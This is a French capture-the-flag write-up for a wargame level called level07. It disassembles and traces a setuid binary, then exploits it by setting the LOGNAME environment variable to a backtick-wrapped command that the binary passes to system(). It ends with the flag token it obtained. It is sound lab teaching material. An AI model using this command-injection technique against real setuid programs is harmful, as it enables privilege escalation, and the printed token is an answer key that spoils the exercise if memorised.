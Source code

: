# LEvel 07

- On commence par regarder ce qu'on a avec `ls -la`
```
level07
```
On a un binaire avec des sticky rights qu'on commence a bien connaitre.   
Maintenant il faut comprendre ce qu'il fait:
- `strings`
RAS

- Du coup tristesse, la seule option qui nous reste : dump le binaire pour essayer de comprendre `objdump -D level07`

```objdump
08048514 <main>:
 8048514:	55                   	push   %ebp
 8048515:	89 e5                	mov    %esp,%ebp
 8048517:	83 e4 f0             	and    $0xfffffff0,%esp
 804851a:	83 ec 20             	sub    $0x20,%esp
 804851d:	e8 ce fe ff ff       	call   80483f0 <getegid@plt>
 8048522:	89 44 24 18          	mov    %eax,0x18(%esp)
 8048526:	e8 b5 fe ff ff       	call   80483e0 <geteuid@plt>
 804852b:	89 44 24 1c          	mov    %eax,0x1c(%esp)
 804852f:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048533:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048537:	8b 44 24 18          	mov    0x18(%esp),%eax
 804853b:	89 44 24 04          	mov    %eax,0x4(%esp)
 804853f:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048543:	89 04 24             	mov    %eax,(%esp)
 8048546:	e8 05 ff ff ff       	call   8048450 <setresgid@plt>
 804854b:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804854f:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048553:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048557:	89 44 24 04          	mov    %eax,0x4(%esp)
 804855b:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804855f:	89 04 24             	mov    %eax,(%esp)
 8048562:	e8 69 fe ff ff       	call   80483d0 <setresuid@plt>
 8048567:	c7 44 24 14 00 00 00 	movl   $0x0,0x14(%esp)
 804856e:	00
 804856f:	c7 04 24 80 86 04 08 	movl   $0x8048680,(%esp)
 8048576:	e8 85 fe ff ff       	call   8048400 <getenv@plt>
 804857b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804857f:	c7 44 24 04 88 86 04 	movl   $0x8048688,0x4(%esp)
 8048586:	08
 8048587:	8d 44 24 14          	lea    0x14(%esp),%eax
 804858b:	89 04 24             	mov    %eax,(%esp)
 804858e:	e8 ad fe ff ff       	call   8048440 <asprintf@plt>
 8048593:	8b 44 24 14          	mov    0x14(%esp),%eax
 8048597:	89 04 24             	mov    %eax,(%esp)
 804859a:	e8 71 fe ff ff       	call   8048410 <system@plt>
 804859f:	c9                   	leave
 80485a0:	c3                   	ret
 80485a1:	90                   	nop
 80485a2:	90                   	nop
 80485a3:	90                   	nop
 80485a4:	90                   	nop
 80485a5:	90                   	nop
 80485a6:	90                   	nop
 80485a7:	90                   	nop
 80485a8:	90                   	nop
 80485a9:	90                   	nop
 80485aa:	90                   	nop
 80485ab:	90                   	nop
 80485ac:	90                   	nop
 80485ad:	90                   	nop
 80485ae:	90                   	nop
 80485af:	90                   	nop
```
- On repère la fonction asprintf qui semble print le nom du fichier
- On voit un getenv

`ltrace ./level07`
result:
```
__libc_start_main(0x8048514, 1, 0xbffff6f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = "level07"
asprintf(0xbffff644, 0x8048688, 0xbfffff28, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```
- On repère un appelle de variable d'env "LOGNAME"
- On veut réécrire LOGENV afin d'influer sur la comande echo
`strings ./level07 | grep %`
result:
/bin/echo %s

```bash
export LOGNAME="\`getflag\`"
./level07
```
result:
`Check flag.Here is your token : fiumuikeil55xe9cu4dood66h`

